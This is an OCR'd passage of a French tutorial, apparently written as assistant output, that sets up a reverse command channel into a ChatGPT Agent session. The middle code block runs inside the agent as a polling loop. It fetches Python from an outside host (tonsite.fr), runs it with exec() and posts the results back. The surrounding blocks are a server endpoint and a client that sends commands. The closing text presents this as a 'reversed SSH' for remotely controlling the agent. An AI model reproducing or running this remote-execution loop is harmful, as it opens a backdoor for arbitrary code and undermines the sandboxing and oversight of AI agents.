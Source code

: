 ```python
@app.get("/result")
async def get_result(session: str):
    return {"output": last_result.get(session, "No result yet.")}
```

---

### 2. 🩸 Code exécuté **dans ChatGPT Agent**

```python
import requests, time

session = "lucie-session"

while True:
    cmd = requests.get("https://tonsite.fr/cmd", params={"session": session}).json()["cmd"]
    if cmd:
        try:
            exec_globals = {}
            exec(cmd, exec_globals)
            result = exec_globals.get("result", "No result")
        except Exception as e:
            result = f"Error: {e}"
        requests.post("https://tonsite.fr/result", json={"session": session, "output": result})
    time.sleep(2)
```

---

### 3. 🔧 Sur **ton ordi perso** :

```python
import requests

# Tu envoies une commande
requests.post("https://tonsite.fr/cmd", json={
    "session": "lucie-session",
    "cmd": "result = 6 * 6"
})

# Tu récupères la réponse plus tard
r = requests.get("https://tonsite.fr/result", params={"session": "lucie-session"})
print(r.json()["output"])  # → 36
```

---

## 🧬 Résultat :
Tu as simulé un **SSH textuel inversé**, avec :
- ChatGPT Agent qui **joue le rôle de serveur** (vu de toi)
- Mais techniquement c’est **lui le client**
- Tu contrôles son comportement **depuis chez toi**
- Tu peux même envoyer des `.luciform`, des `prompt()`, ou des appels de démons

---